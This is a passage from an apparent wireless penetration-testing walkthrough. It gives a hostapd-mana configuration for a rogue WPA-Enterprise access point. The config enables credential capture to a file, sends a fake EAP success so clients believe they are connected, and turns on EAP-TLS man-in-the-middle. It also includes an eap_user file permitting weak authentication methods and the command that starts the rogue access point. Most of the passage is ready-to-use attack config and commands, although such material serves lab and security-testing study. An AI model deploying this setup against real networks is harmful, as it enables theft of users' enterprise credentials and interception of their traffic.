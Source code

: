 ```
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1


```

**Screenshot of mana.conf file:**

![](Files/image.png)

  

- `mana.eap_user` :

```
sudo vim /etc/hostapd-mana/mana.eap_user

```

  

```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

**Screenshot of mana.eap\_user file:**

![](Files/image.png)

  

  

11. We start up `hostapd-mana` to create our rogue access point: 

```
sudo hostapd-mana /etc/hostapd-mana/mana.conf

```

**Screenshot of running `hostapd-mana` :** 

![](Files/image.png)
